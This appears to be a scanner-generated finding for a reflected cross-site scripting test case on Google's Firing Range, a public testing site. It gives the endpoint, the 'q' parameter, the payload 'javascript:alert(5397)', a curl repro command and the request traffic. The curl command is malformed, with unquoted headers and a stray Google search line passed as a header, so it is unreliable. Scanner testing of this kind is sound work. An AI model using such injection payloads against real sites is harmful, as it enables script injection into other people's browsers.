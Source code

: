 ## Endpoint details

- Scheme: https
- Host: public-firing-range.appspot.com
- Path: /reflected/escapedparameter/js_eventhandler_quoted/DOUBLE_QUOTED_ATTRIBUTE
- Query keys: q

**Param:** q

**Attack:** `javascript:alert(5397)`

## Repro (curl)

```bash
curl -H _line: GET https://www.google.com/search?client=firefox-b-d&q=google+firing+range HTTP/1.1 -H User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0 -H Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 -H Accept-Language: en-US,en;q=0.5 -H Connection: keep-alive "https://public-firing-range.appspot.com/reflected/escapedparameter/js_eventhandler_quoted/DOUBLE_QUOTED_ATTRIBUTE?q=javascript:alert(5397)"
```

## Traffic

### Request

GET https://public-firing-range.appspot.com/reflected/escapedparameter/js_eventhandler_quoted/DOUBLE_QUOTED_ATTRIBUTE?q=javascript:alert(5397)

_Headers: 12_

Headers:
- _line: GET https://www.google.com/search?client=firefox-b-d&q=google+firing+range HTTP/1.1
- host: www.google.com
- User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
- Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
- Accept-Language: en-US,en;q=0.5
- Connection: keep-alive
- Upgrade-Insecure-Requests: 1
- Sec-Fetch-Dest: document
- Sec-Fetch-Mode: navigate
- Sec-Fetch-Site: none
- Sec-Fetch-User: ?1
- Priority: u=0, i

### Response

Status: 200

_Content-Type: text/html; charset=UTF-8_

_Content-Length: 84242_

_Headers: 20_
